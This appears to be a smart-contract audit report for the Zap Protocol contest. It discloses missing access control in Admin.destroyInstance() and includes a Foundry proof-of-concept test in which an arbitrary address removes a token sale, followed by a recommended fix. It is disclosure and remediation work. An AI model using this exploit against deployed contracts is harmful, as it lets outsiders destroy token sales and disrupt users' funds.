 Jumpy Violet Ram

high

# Missing access control in `Admin.destroyInstance()`

## Summary
Missing access control in [`Admin.destroyInstance`](https://github.com/sherlock-audit/2024-03-zap-protocol/blob/c2ad35aa844899fa24f6ed0cbfcf6c7e611b061a/zap-contracts-labs/contracts/Admin.sol#L138-L143) allows anyone to remove token sales.

## Vulnerability Detail
`Admin.destroyInstance()` can be called by anyone to remove a token sale.

```solidity
    function destroyInstance(
        address _instance
    ) external onlyExist(_instance) onlyIncoming(_instance) {
        _removeFromSales(_instance);
        ITokenSale(_instance).destroy();
    }
```
[`TokenSale.destroy()`](https://github.com/sherlock-audit/2024-03-zap-protocol/blob/c2ad35aa844899fa24f6ed0cbfcf6c7e611b061a/zap-contracts-labs/contracts/TokenSale.sol#L186C1-L194C6) makes a call to [`_onlyAdmin`](https://github.com/sherlock-audit/2024-03-zap-protocol/blob/c2ad35aa844899fa24f6ed0cbfcf6c7e611b061a/zap-contracts-labs/contracts/TokenSale.sol#L151C1-L157C6) to ensure that it can be called only by authorized addresses.

```solidity
    function destroy() external override {
        _onlyAdmin();
        uint256 amountUSDC = usdc.balanceOf(address(this));
        if (amountUSDC > 0) {
            usdc.safeTransfer(admin.wallet(), amountUSDC);
        }
        address payable wallet = payable(admin.wallet());
        selfdestruct(wallet);
    }
```

Since `msg.sender` is the actual admin contract this require statement will be bypassed and the sale will be successfully removed.

```solidity
    function _onlyAdmin() internal view {
        require(
            admin.hasRole(DEFAULT_ADMIN_ROLE, msg.sender) ||
                msg.sender == address(admin),
            "TokenSale: Onlyadmin"
        );
    }
```


## Impact
Griefing of token sales

## Code Snippet
For test purposes I have added the following function to [`TokenSale.sol`](https://github.com/sherlock-audit/2024-03-zap-protocol/blob/c2ad35aa844899fa24f6ed0cbfcf6c7e611b061a/zap-contracts-labs/contracts/TokenSale.sol)

```solidity
    function setUsdc(address _new) public {
        usdc = IERC20D(_new);
    }
```
A foundry PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.11;

import "forge-std/Test.sol";
import "../contracts/Admin.sol";
import "../contracts/USDC.sol";
import "../contracts/interfaces/ITokenSale.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "forge-std/console.sol";
import {TokenSale} from "../contracts/TokenSale.sol";

contract TokenSaleTest is Test {
    using stdStorage for StdStorage;
     address public saleContract;
     Admin public admin;
     USDCWithSixDecimal public mockUSDC;
     

    function setUp() public {
        saleContract = address(new TokenSale());
        mockUSDC = new USDCWithSixDecimal("MockUSDC", "USDC");
        _setUpAdmin();
        
       
    }

    function _setUpAdmin() internal {
       admin = new Admin();
       admin.initialize(address(this));
       admin.addOperator(address(this));
       admin.setMasterContract(saleContract);
       admin.setWallet(address(this));

    
       ITokenSale.Params memory params = ITokenSale.Params({
        totalSupply: 1000e18,
        privateStart: uint32(block.timestamp + 1),
        privateTokenPrice: 20e18,
        privateEnd: uint32(block.timestamp + 1 weeks)
       });

       admin.createPoolNew(params, 15000e18, 1000, false, 0);
       assertTrue(admin.tokenSalesM(0x4f81992FCe2E1846dD528eC0102e6eE1f61ed3e2));

       // A setUsdc function is added to the TokenSale contract for test purposes
       bytes memory data = abi.encodeWithSignature("setUsdc(address)", address(mockUSDC));
       address(0x4f81992FCe2E1846dD528eC0102e6eE1f61ed3e2).call(data);
    }

    function testUnauthorizedRemoval() public {
        vm.prank(address(0xb0b));
        admin.destroyInstance(0x4f81992FCe2E1846dD528eC0102e6eE1f61ed3e2);
        assertFalse(admin.tokenSalesM(0x4f81992FCe2E1846dD528eC0102e6eE1f61ed3e2));
    }
}
```
## Tool used
Foundry

## Recommendation
Protect `Admin.destroyInstance` with `onlyRole` modifier

```diff
    function destroyInstance(
        address _instance
+    ) external onlyRole(OPERATOR) onlyExist(_instance) onlyIncoming(_instance) {
        _removeFromSales(_instance);
        ITokenSale(_instance).destroy();
    }
```
